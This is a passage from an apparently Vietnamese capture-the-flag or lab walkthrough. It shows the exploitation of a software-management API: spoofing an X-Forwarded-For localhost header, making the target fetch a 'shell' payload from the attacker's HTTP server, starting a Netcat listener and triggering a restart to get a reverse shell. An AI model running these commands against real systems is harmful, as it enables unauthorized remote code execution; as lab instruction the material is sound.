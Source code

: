 Tiếp theo, upload reverse shell bằng cách gửi yêu cầu POST cần thiết đến endpoint `/update`.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.120.149:13337/update -H "Content-Type: application/json" -H "X-Forwarded-For: localhost" --data '{"user":"clumsyadmin","url":"http://192.168.118.5/shell"}'
Update requested by clumsyadmin. Restart the software for changes to take effect.
```

Thấy một hit `200-OK` trên máy chủ web. Có vẻ như API đã tải xuống thành công payload.

```
┌──(kali㉿kali)-[~]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.120.149 - - [12/Mar/2021 08:26:34] "GET /shell HTTP/1.1" 200 -
```

API hiện đang yêu cầu target đến endpoint `/restart` để bắt đầu khởi động lại dịch vụ. Hướng dẫn sử dụng cho biết yêu cầu này phải là GET. Trước tiên, thiết lập trình lắng nghe Netcat để bắt shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
```

Khi trình lắng nghe đã bắt đầu, gửi yêu cầu GET để khởi động lại dịch vụ. Thật không may, có vẻ như nó không hoạt động.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.149:13337/restart -H "X-Forwarded-For: localhost"
<html>
    <head>
        <title>Remote Service Software Management API</title>
        <script>
            function restart(){
                if(confirm("Do you really want to restart the app?")){
                    var x = new XMLHttpRequest();
                    x.open("POST", document.URL.toString());
                    x.send('{"confirm":"true"}');
                    window.location.assign(window.location.origin.toString());
                }
            }
        </script>
    </head>
    <body>
    <script>restart()</script>
    </body>
</html>
```

Đọc source code, có vẻ như yêu cầu đến endpoint này thực sự phải là POST - không phải GET. 

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.120.149:13337/restart -H "X-Forwarded-For: localhost"
Restart Successful.
```
